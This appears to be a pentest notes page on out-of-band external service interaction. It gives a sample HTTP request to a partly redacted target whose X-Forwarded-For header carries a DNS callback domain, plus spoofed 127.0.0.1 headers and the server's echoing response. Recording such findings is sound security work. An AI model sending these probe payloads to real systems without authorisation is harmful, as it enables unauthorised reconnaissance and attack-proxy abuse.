 # Out-of-band communication / external service interaction
External service interaction arise when the application interacts with an arbitrary external service, such as HTTP/HTTPS, DNS, FTP or e-mail servers.
The ability to trigger arbitrary external service interactions does not constitute a vulnerability in its own right, however, it allows the vulnerable server to be used as an attack proxy server.
There are a few types of external service interaction:
- [External Service Interaction (HTTP/HTTPS)](#external-service-interaction-(http/https))
- [External Service Interaction (DNS)](#external-service-interaction(DNS))
- [Out-of-band Resource Load (HTTP)](#out-of-band-resource-load-(http))

## External service interaction (DNS)
Payload: `X-Forwarded-For: external-dns-interaction.whitecat.dns.server.here`
#### Request:
```
GET / HTTP/1.1
Host: deliver**.ie
X-Forwarded-For: external-dns-interaction.whitecat.dns.server.here
True-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
Referer: http://127.0.0.1/
X-WAP-Profile: http://127.0.0.1/wap.xml
X-Scraped: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```

#### Response:
```
HTTP/1.1 500 Internal Server Error
Date: Thu, 19 Jul 2018 19:14:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 46356
Connection: close
[...]
"ip":"external-dns-interaction.whitecat.dns.server.here","referer":"http://127.0.0.1/"
[...]
```

#### Bind logs:
![Logo](https://www.pwncave.net/images/deliver-ext-dns-int-bind.PNG)

#### Interaction with `netcat`
![Logo](https://www.pwncave.net/images/deliver-nc-udp-53.PNG)

### References
- https://portswigger.net/kb/issues/00300200_external-service-interaction-dns
- https://www.slideshare.net/Insovince/external-service-interaction
